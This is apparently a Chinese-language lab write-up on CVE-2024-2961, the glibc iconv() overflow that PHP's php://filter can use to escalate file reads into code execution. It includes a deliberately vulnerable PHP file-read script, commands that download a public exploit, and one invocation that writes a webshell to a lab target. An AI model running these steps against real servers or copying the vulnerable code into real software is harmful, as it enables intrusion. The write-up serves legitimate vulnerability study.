



## 漏洞信息

### 0x01漏洞描述



其实就是PHP利用glibc iconv()中的一个缓冲区溢出漏洞，实现将文件读取提升为任意命令执行漏洞

什么是缓冲区溢出呢？我看到一个师傅给的解释很详细

[CVE-2024-2961：将phpfilter任意文件读取提升为远程代码执行（RCE）](https://blog.csdn.net/web22050702/article/details/139502051)

缓冲区溢出是二进制安全研究领域里很常见的漏洞。所谓缓冲区溢出是指当一段程序尝试把更多的数据放入一个缓冲区，数据超出了缓冲区本身的容量，导致数据溢出到被分配空间之外的内存空间，使得溢出的数据覆盖了其他内存空间的数据。攻击者可以利用缓冲区溢出修改计算机的内存，破坏或控制程序的执行，导致数据损坏、程序崩溃，甚至是恶意代码的执行。缓冲区溢出攻击又分为栈溢出、堆溢出、格式字符串溢出、整数溢出、Unicode溢出。

### 0x02利用场景

漏洞的利用场景
PHP的所有标准文件读取操作都受到了影响：`file_get_contents()`、`file()`、`readfile()`、`fgets()`、`getimagesize()`、`SplFileObject->read()`等。文件写入操作同样受到影响（如file_put_contents()及其同类函数）.

其他利用场景; 其他文件读写相关操作只要支持php://filter伪协议都可以利用。包括`XXE、new $_GET['cls']($_GET['argument']);`这种场景，都可以使用这个trick进行利用

所以我们可以在php读取文件的时候可以使用 php://filter伪协议利用 iconv 函数, 从而可以利用该漏洞进行 RCE，将phpfilter任意文件读取提升为远程代码执行

## 漏洞浮现

vulhub的靶场刚好有这个漏洞

github地址:https://github.com/vulhub/vulhub/tree/master/php/CVE-2024-2961

但是起环境之后会有一个错误，我们看一下源码



这里的话因为一开始每传入file参数所以造成了报错，稍微改一下吧，虽然这个影响不大

```php
<?php
highlight_file(__FILE__);
if(isset($_POST['file'])){ 
    $data = file_get_contents($_POST['file']);
    echo "File contents: $data";
}
```

但是一直没访问成功，算了，自己本地搭一个吧，反正也很简单



可以发现是可以进行读取文件的, 接下来就是尝试进行RCE的利用了

安装一下环境依赖

```
pip install pwntools
pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
```

下载poc

```
wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
```

然后我们传入漏洞网站相应的路由就行

```
python3 cnext-exploit.py http://ip:8080/index.php "echo '<?php phpinfo();?>' > shell.php"
```
